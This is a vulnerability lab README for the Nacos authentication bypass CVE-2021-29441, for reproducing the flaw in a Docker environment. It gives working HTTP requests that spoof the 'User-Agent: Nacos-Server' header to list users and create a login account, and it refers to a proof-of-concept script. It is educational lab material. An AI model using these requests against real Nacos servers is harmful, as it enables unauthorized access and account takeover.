



# Nacos Authentication Bypass (CVE-2021-29441)

[中文版本(Chinese version)](README.zh-cn.md)

Nacos is an easy-to-use platform designed for dynamic service discovery and configuration and service management.

In the Nacos version before 1.4.1, when performing authentication and authorization, the server checks whether the `User-Agent` request header is set to `Nacos-Server`. If it matches, the request bypasses all authentication checks. This mechanism was intended for internal server-to-server communication, but because the User-Agent value is hard-coded and trivially spoofable, any unauthenticated attacker can access protected API endpoints — such as user management interfaces — by simply setting this header, leading to sensitive information disclosure and unauthorized operations.

References:

- <https://github.com/advisories/GHSA-36hp-jr8h-556f>

## Environment Setup

Execute the following command to start Nacos 1.4.0:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:8848/nacos/` to access the Nacos login page.

## Vulnerability Reproduction

The vulnerability can be exploited by adding the `User-Agent: Nacos-Server` header to any request, which bypasses Nacos authentication entirely and allows access to protected API endpoints.

First, send a GET request with the spoofed `User-Agent` header to list all existing users:

```
GET /nacos/v1/auth/users?pageNo=1&pageSize=9 HTTP/1.1
Host: your-ip:8848
User-Agent: Nacos-Server
```

If the vulnerability exists, the server will return a 200 response containing `pageItems` with user information.



Then, send a POST request with the same header to create a new user `vulhub` with password `vulhub`:

```
POST /nacos/v1/auth/users?username=vulhub&password=vulhub HTTP/1.1
Host: your-ip:8848
User-Agent: Nacos-Server
```

The server responds with `create user ok!` confirming the user was created successfully.



Finally, visit `http://your-ip:8848/nacos/` and log in with the newly created credentials `vulhub:vulhub` to gain full access to the Nacos console.



A proof-of-concept script [poc.py](poc.py) is also provided that automates the detection and exploitation process:

```
pip install -r requirements.txt
python poc.py http://your-ip:8848
```
